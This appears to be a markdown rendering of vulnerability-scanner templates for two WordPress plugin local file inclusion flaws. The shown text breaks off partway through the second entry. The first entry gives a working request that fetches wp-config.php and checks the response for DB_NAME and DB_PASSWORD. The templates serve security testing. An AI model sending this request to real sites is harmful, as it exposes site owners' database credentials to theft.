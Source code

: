 
# WordPress Advanced Access Manager \< 5.9.9 - Local File Inclusion

## Description

- WordPress Advanced Access Manager versions before 5.9.9 are vulnerable to local file inclusion and allows attackers to download the wp-config.php file and get access to the database, which is publicly reachable on many servers.

- severity - high
- tags - wordpress,wp-plugin,lfi,wp,accessmanager,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/?aam-media=wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Aspose Importer & Exporter 1.0 - Local File Inclusion

## Description

- WordPress Aspose Importer & Exporter version 1.0 is vulnerable to local file inclusion.
- severity - high
- tags - aspose,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET
